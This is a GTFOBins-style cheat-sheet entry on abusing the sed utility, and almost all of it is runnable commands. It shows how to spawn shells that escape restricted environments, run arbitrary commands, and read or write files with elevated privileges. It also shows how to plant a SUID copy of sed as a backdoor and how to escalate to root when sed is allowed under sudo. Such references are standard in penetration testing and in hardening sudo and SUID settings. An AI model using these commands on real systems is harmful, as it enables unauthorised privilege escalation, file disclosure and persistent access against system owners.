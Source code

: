 # GTFOBin: sed

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

GNU version only. Also, this requires `bash`.

```
sed -n '1e exec sh 1>&0' /etc/hosts
```

GNU version only. The resulting shell is not a proper TTY shell.

```
sed e
```

## Command

It can be used to break out from restricted environments by running non-interactive system commands.

GNU version only.

```
sed -n '1e id' /etc/hosts
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
LFILE=file_to_write
sed -n "1s/.*/DATA/w $LFILE" /etc/hosts
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
sed '' "$LFILE"
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which sed) .

LFILE=file_to_read
./sed -e '' "$LFILE"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

GNU version only. Also, this requires `bash`.

```
sudo sed -n '1e exec sh 1>&0' /etc/hosts
```